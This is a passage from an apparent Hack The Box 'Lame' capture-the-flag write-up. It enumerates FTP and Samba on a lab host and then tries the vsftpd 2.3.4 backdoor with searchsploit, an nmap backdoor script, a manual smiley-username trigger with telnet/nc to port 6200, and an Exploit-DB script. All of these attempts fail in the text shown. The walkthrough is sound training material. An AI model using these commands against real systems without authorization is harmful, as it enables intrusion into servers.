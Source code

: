 <br />
<img src="{{ site.img_path }}/lame_writeup/Lame_02.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Before looking for any vulnerability in the available services, I will try to access some service through the tools available on my machine, maybe I will get lucky and access some resource not allowed because of a misconfiguration, or upload content to the server. But I can't find much information accessing with `smbclient` and `smbmap` to the resources through the **Samba** protocol (port **445**), neither with `ftp` on the port **21**.

> **[vsftpd](https://www.mvps.net/docs/what-is-vsftpd-or-very-secure-ftp-daemon/){:target="_blank"}**, Very Secure FTP Daemon, is an FTP server licensed under GPL. The default FTP server is installed on some distributions like Fedora, CentOS, or RHEL.

```bash
ftp 10.129.140.158
# anonymous     :)
  dir
  put test.txt          # :(
  quit

smbclient -L 10.129.140.158 -N
smbmap -H 10.129.140.158 -u 'null' --no-banner
# Access denied on 10.129.140.158, no fun for you...
```

<br />
<img src="{{ site.img_path }}/lame_writeup/Lame_03.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lame_writeup/Lame_04.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I'm going to speed up the pace a bit and search with `searchsploit` for some exploit already written for the **VSFTP** version, I can also validate with `nmap` if the service is vulnerable, but I can't do it. On the **Internet** I find **[Exploit-DB exploit](https://www.exploit-db.com/exploits/49757){:target="_blank"}**, but before downloading it I analyze the code and perform better the exploit manually, but I don't succeed in exploiting the vulnerability. There are several projects on **Github** that have published the **[exploit](https://github.com/cherrera0001/vsftpd_2.3.4_Exploit/blob/main/exploit.py){:target="_blank"}** for the **VSFPT** service, but I will download directly with `searchsploit` and try to access the machine, I have no luck either, something is blocking connections from the victim machine it seems to me.

```bash
searchsploit vsftpd 2.3.4                                 # :)
locate *.nse | grep vsftp
nmap --script ftp-vsftpd-backdoor -p21 10.129.140.158     # :(

# Manual Exploitation:
telnet 10.129.140.158 21
  USER hello:)
  PASS hello123
telnet 10.129.140.158 6200
nc 10.129.140.158 6200                                    # :(

searchsploit -m unix/remote/49757.py
mv 49757.py vsftpd_exploit.py
python vsftpd_exploit.py 10.129.140.158
python2 vsftpd_exploit.py 10.129.140.158                  # :(
```
